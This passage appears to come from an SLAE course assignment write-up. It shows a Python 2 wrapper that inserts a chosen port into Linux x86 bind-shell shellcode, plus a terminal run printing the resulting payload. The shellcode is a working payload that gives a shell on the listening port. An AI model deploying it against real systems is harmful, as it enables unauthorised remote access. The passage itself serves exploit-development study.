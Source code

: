 ```python
\\x56\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x89\\xe1\\x6a\\x16\\x51\\x52\\xb0\\x66\\xb3\\x02\\x89\\xe1\\xcd
\\x80\\x6a\\x01\\x52\\xb0\\x66\\xb3\\x04\\x89\\xe1\\xcd\\x80\\x56\\x56\\x52\\xb0\\x66\\xb3\\x05\\x89\\xe1
\\xcd\\x80\\x89\\xc2\\x31\\xc9\\xb1\\x03\\x89\\xd3\\x49\\xb0\\x3f\\xcd\\x80\\x79\\xf9\\x31\\xc0\\x50\\x68
\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xc2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80
"""

if (len(sys.argv) < 2):
    print "Usage: python {name} <port>".format(name = sys.argv[0])
    exit()

port = int(sys.argv[1])

if port < 0 or port > 65535:
    print "Invalid port number, must be between 0 and 65535!"
    exit()
    
port = hex(socket.htons(int(sys.argv[1])))
shellcode = shellcode.replace("\\x11\\x5c", "\\x{b1}\\x{b2}".format(b1 = port[4:6], b2 = port[2:4]))

print("Generated shellcode using custom port: " + sys.argv[1])
print shellcode

print "Shellcode length: %d bytes" % len(shellcode)
if "\x00" in shellcode:
    print "WARNING: Null byte is present!"
else:
    print "No nulls detected"
```
The Python code dynamically generates shellcode in hex format based on the user input, calculating the shellcode length and checking for Null bytes in the process: 

```bash
osboxes@osboxes:~/Downloads/SLAE$ python shell_bind_tcp_wrapper.py 5555
Generated shellcode using custom port: 5555

\x31\xc0\x31\xdb\x31\xf6\x56\x6a\x01\x6a\x02\xb0\x66\xb3\x01\x89\xe1\xcd\x80\x89\xc2\x56\x66\x68\x15\xb3\x66\x6a\x02\x89\xe1
\x6a\x16\x51\x52\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x6a\x01\x52\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x56\x56\x52\xb0\x66\xb3\x05\x89
\xe1\xcd\x80\x89\xc2\x31\xc9\xb1\x03\x89\xd3\x49\xb0\x3f\xcd\x80\x79\xf9\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69
\x89\xe3\x50\x89\xc2\x53\x89\xe1\xb0\x0b\xcd\x80

Shellcode length: 422 bytes
No nulls detected
```


[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment1